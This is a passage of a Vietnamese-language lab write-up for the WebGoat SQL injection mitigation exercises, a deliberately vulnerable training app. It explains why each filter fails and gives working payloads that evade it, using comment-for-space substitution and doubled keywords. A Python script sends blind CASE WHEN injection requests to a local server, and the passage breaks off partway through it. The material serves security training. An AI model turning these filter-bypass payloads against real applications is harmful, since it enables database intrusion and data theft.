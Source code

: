 ```java
    attackResult = failed(this).output("Something went wrong").build();
  }
```

## SQL Injection (mitigation)

## Lab 9

### Nguyên nhân lỗi

- Lập trình viên chỉ đơn giản là validate input, nếu có white space thì trả failed về cho phía Client

![image.png]((A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%203.png)

### POC

- Có thể sử dụng `/**/` để thay thế cho white space
- Payload

```sql
'/**/SELECT/**/*/**/FROM/**/user_system_data;/**/--
```

## Lab 10

### Nguyên nhân lỗi

- Vẫn sử dụng filter `white space` và kết hợp thêm filter đi 2 từ `SELECT` và `FROM`

![image.png]((A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%204.png)

- Tuy nhiên, phần filter `SELECT` và `FROM` chỉ đơn giản là thay thế một lần và thay bằng một chuỗi rỗng `“”` → Nếu truyền `SSELECTELECT` thì khi filter thì nó sẽ trở thành SELECT, tương tự với `FROM` → Vẫn bị tấn công SQL Injection
- Về phần filter white space thì nó giống như Lab 9

### POC

- Sử dụng payload bên dưới để bypass

```sql
'/**/SESELECTLECT/**/*/**/FRFROMOM/**/user_system_data;/**/--
```

## Lab 12

- Sử dụng script python sau

```python
import requests  
  
index = 0  

headers = {  
    'Cookie': 'JSESSIONID=1JeQYvZuQvFhvbBcInM3sY6E0dKFHFK9m0Hg7RkA'  
}  

while True:  
    payload = '(CASE WHEN (SELECT ip FROM servers WHERE hostname=\'webgoat-prd\') LIKE \'{}.%\' THEN id ELSE hostname END)'.format(index)  

    r = requests.get('http://127.0.0.1:8080/WebGoat/SqlInjectionMitigations/servers?column=' + payload, headers=headers)  
```